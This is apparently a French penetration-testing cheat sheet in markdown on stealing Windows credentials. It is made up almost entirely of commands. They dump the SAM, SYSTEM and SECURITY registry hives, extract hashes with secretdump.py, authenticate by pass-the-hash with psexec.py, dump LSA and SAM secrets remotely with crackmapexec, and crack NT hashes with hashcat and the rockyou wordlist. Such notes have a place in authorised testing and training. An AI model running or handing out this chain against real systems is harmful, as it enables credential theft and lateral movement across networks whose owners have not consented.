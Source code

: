 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sauvegarde des credentials quand on est system
```shell
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```

## Dump à distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Cassage des hash NT avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```